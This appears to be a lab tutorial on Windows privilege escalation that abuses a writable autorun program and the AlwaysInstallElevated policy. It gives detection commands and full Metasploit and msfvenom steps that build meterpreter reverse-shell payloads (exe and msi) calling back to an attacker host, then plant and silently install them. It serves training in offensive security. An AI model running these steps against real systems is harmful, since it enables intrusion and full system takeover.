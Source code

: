 # Escalation Path Registry

## Autorun

Autoruns refer to programs, scripts, or services that automatically execute when Windows starts or when a device (like a USB) is plugged in.

### Detection of Auto runs programs 

***Windows VM***

**Run Autoruns**:

Open *Command Prompt* and execute `Autoruns64.exe`.

```
**C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe**
```

Navigate to the *‘Logon’ tab* to check programs that auto-start at user login.

**Identify Vulnerable Entry**:

"My Program" is set to run automatically from:

```
C:\Program Files\Autorun Program\program.exe
```

**Check File Permissions**:

Use *AccessChk* to inspect permissions:
   
```
accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

The output shows **"Everyone" has FILE_ALL_ACCESS**, meaning **any user (even non-admins) can modify** `program.exe`.

**Exploitation Possibility**:

- Since `program.exe` runs at *logon*, an attacker can *replace it with a malicious file* (e.g., a reverse shell).

- Upon restart/login, the system will execute the attacker’s payload, potentially leading to **privilege escalation**.

### Exploitations

**Kali VM**

Open command prompt and type: 

```
msfconsole
```

In Metasploit (msf > prompt) type: 

```
use multi/handler
```  

In Metasploit (msf > prompt) type:

```
set payload windows/meterpreter/reverse_tcp
```  

In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]
```

In Metasploit (msf > prompt) type: 

```
run
```

Open an additional command prompt and type: 

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe  
```

Copy the generated file, program.exe, to the Windows VM.

**Windows VM**

1. Place program.exe in `C:\Program Files\Autorun Program`  
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

**Kali VM**

1. Wait for a new session to open in Metasploit.  
2. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid`

## AlwaysInstallElevated

The **AlwaysInstallElevated"** setting in Windows allows **MSI (Microsoft Installer) packages** to install with **SYSTEM privileges**, even when run by a low-privileged user. If misconfigured, an attacker can exploit it to **gain full control (privilege escalation)**.

### Detection 

**Windows VM**

1. Open command prompt and type: 

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```  

From the output, notice that `AlwaysInstallElevated` value is `1`. 

2. In command prompt type: 

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```  

From the output, notice that `AlwaysInstallElevated` value is `1`.

### Exploitation

**Kali VM**

Open command prompt and type: `msfconsole`  

In Metasploit (msf > prompt) type:

```
use multi/handler  
```

In Metasploit (msf > prompt) type: 

```
set payload windows/meterpreter/reverse_tcp  
```

In Metasploit (msf > prompt) type: 

```
set lhost [Kali VM IP Address]  
```

In Metasploit (msf > prompt) type: `run` 

Open an additional command prompt and type:

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi  
```

Copy the generated file, `setup.msi`, to the Windows VM. 

**Windows VM**

1.Place *setup.msi* in `C:\Temp`.  
2.Open command prompt and type: 

```
msiexec /quiet /qn /i C:\Temp\setup.msi
```


